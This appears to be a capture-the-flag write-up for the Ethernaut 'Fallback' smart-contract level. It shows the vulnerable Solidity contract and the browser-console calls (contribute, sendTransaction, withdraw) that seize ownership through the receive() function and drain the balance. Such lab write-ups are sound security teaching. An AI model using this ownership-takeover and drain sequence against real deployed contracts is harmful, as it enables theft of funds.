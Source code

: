 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg">

## Exploration

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
## Subverting
```shell
await contract.owner()
"0x9CB391dbcD447E645D6Cb55dE6ca23164130D008"
```
```shell
await contract.contribute({value: 4})
```
This notification met me.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/contribute.png">

```shell
await contract.getContribution()
Object { negative: 0, words: (2) […], length: 1, red: null }
​
length: 1
​
negative: 0
​
red: null
​
words: Array [ 4, <1 empty slot> ]
​​
0: 4
​​
length: 2
​​
<prototype>: Array []
​
<prototype>: Object { _init: _init(t, e, r), _initNumber: _initNumber(t, e, r), _initArray: _initArray(t, e, r), … }
```
### JSON RPC ETH

```shell
await contract.sendTransaction({value: 1})
```
```shell
await contract.owner()
"0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b"

await contract.withdraw()

await contract.getContribution()
```
And submit instance.

<img src="">

**_by wasny0ps_**
